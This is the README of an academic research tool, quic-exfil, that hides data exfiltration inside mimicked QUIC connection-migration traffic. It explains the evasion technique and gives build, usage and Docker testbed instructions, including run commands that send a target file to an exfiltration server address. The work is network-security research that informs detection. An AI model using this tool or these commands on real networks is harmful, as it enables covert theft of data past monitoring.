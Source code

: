 # quic-exfil
Covert data exfiltration by mimicking QUIC server-side connection migrations.

![Rust build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/rust.yml/badge.svg)
![Docker build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/docker-image.yml/badge.svg)
![Crates.io Total Downloads](https://img.shields.io/crates/d/quic-exfil?style=plastic)
![GitHub Repo stars](https://img.shields.io/github/stars/thomasgruebl/quic-exfil?style=plastic)
![GitHub forks](https://img.shields.io/github/forks/thomasgruebl/quic-exfil?style=plastic)
![GitHub Issues or Pull Requests](https://img.shields.io/github/issues/thomasgruebl/quic-exfil?style=plastic)
![GitHub last commit](https://img.shields.io/github/last-commit/thomasgruebl/quic-exfil?style=plastic)
![GitHub License](https://img.shields.io/github/license/thomasgruebl/quic-exfil)

<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ul>
  <li><a href="#introduction">Introduction</a></li>
  <li><a href="#dependencies">Dependencies</a></li>
  <li><a href="#build">Build</a></li>
  <li><a href="#run">Run</a></li>
  <li><a href="#testbed">Experimental Testbed</a></li>
  <li><a href="#citation">Citation</a></li>
  <li><a href="#license">License</a></li>
  </ul>
</details>


## Introduction

QUIC-Exfil exploits the fact that QUIC allows changes in the underlying IP header, without requiring a new handshake. Therefore, from the perspective of an on-path observer, QUIC connection migrations are difficult to differentiate from potentially malicious traffic. If an adversary monitors the statistical properties of the QUIC traffic within a network, he/she can almost perfectly replicate the observable features of QUIC traffic, including a connection migration "fingerprint" and the traffic that follows.

The following figure depicts a QUIC-Exfil client-side Wireshark trace (without the required server-side acknowledgments). The second packet in the trace (highlighted in blue) represents the mimicked server-side connection migration to a new destination IP address, followed by various exfiltration payload packets. For illustration purposes, the exfiltration packets retain the same DCID as from the hijacked connection (packet #1). The inter-arrival times (i.e., time deltas) between the outgoing QUIC packets, as well as the payload sizes of the connection migration packet and the "normal" QUIC packets are sampled from a distribution of previously observed packets for the QUIC connection with DCID 29a3de9a9c2063bd0f65b34637234ece7cf876fa. Furthermore, the exfiltration payloads are encrypted using AES-256-CBC to match the entropy of typical encrypted traffic. This reduces the observable differences in legitimate QUIC traffic as compared to malicious exfiltration traffic.

![Alt text](images/wireshark.png "pcap_sample")


## Dependencies

libpcap

Debian/Ubuntu:

```sh
sudo apt install libpcap-dev
```

macOS:

```sh
brew install libpcap
```


## Build

```sh
cargo build --release
```

## Run

```sh
sudo ./target/release/quic-exfil
```

```sh
Usage: quic-exfil [OPTIONS]

Options:
  -i, --interface <INTERFACE>  Network interface name [default: en1]
  -t, --target <TARGET>        Target file to exfiltrate [default: images/sample.jpg]
  -f, --filter <FILTER>        Pcap capture filter [default: udp dst port 443]
  -d, --dst <DST>              Exfiltration server destination IP [default: 192.0.2.100]
  -p, --port <PORT>            Exfiltration server destination port [default: 443]
  -b, --buffer <BUFFER>        Packet buffer. Specifies how many QUIC packets should be captured and analyzed before attempting to send the first exfiltration packet. Required to mimic payload lengths of previously seen traffic [default: 1000]
  -n, --number <NUMBER>        Number of packets to be exfiltrated per simulated connection migration [default: 100]
  -h, --help                   Print help
  -V, --version                Print version

```



## Testbed

This section describes the experimental setup used to evaluate `quicexfil` in a Docker-based testbed. The testbed aims to simulate a small enterprise network with multiple desktop machines generating QUIC traffic, and controlled benign connection migrations using Cloudflare's `quiche` library.

Docker compose spins up 16 containers running the `quicexfil` binary. Each container is based on [`accetto/xubuntu-vnc-novnc-firefox`](https://hub.docker.com/r/accetto/xubuntu-vnc-novnc-firefox) for a lightweight desktop GUI with Firefox and noVNC support.

Launch the setup:

```sh
docker compose up --build
```

This will build the image and launch 16 instances of the quicexfil container.

You will see console output showing accessible noVNC URLs (e.g., https://172.19.0.8:6901) for each container. These can be opened in your host browser to interact with each container’s desktop environment.

You can connect to each container using the noVNC lite clients, for example:

```sh
https://172.19.0.8:6901
```

Log in with the default password <i>headless</i> and open your browser in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google, which already use the QUIC protocol).

Running the benign QUIC server on the Host VM:

The benign QUIC server was used to create fingerprints of benign connection migrations. The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):

```sh
./target/release/quiche-server \
  --listen 192.168.100.63:4433 \
  --root html \
  --cert apps/src/bin/cert.crt \
  --key apps/src/bin/cert.key \
  --enable-active-migration
```

Replace <i>192.168.100.63</i> with the IP address of your host machine.

Connect to each container using

```sh
docker exec -it <container_id> bash
```

and then start the benign quiche connection migration script (make sure to adjust the IP address of your quiche server within the [script](https://github.com/thomasgruebl/quic-exfil/blob/main/scripts/benign_conn_migr.sh)):

```sh
./benign_conn_migr.sh
```

In 4 of the 16 containers, the experimental quicexfil tool is manually run to test potential data exfiltration over QUIC:

```sh
./target/release/quic-exfiltration -d "192.0.2.100" -i "eth0"
```

Replace <i>192.0.2.100</i> with the IP address of your exfiltration server.


## Citation

If you intend to use QUIC-Exfil, please cite the following publication:

--preliminary--

```text
@inproceedings{10.1145/3708821.3733872,
author = {Gr\"{u}bl, Thomas and Niu, Weijie and von der Assen, Jan and Stiller, Burkhard},
title = {QUIC-Exfil: Exploiting QUIC’s Server Preferred Address Feature to Perform Data Exfiltration Attacks},
year = {2025},
isbn = {798400714108},
publisher = {Association for Computing Machinery},
address = {New York, NY, USA},
url = {https://doi.org/10.1145/3708821.3733872},
doi = {10.1145/3708821.3733872},
booktitle = {Proceedings of the 20th ACM Asia Conference on Computer and Communications Security},
pages = {XXX–YYY},
numpages = {14},
keywords = {QUIC, Network Security, Data Exfiltration, Anomaly Detection},
location = {Hanoi, Vietnam},
series = {ASIA CCS '25}
}
```




## License

Distributed under the `GNU General Public License v3.0` License. See
[`LICENSE`](<https://github.com/thomasgruebl/quic-exfil/tree/main/LICENSE>)
for more information.
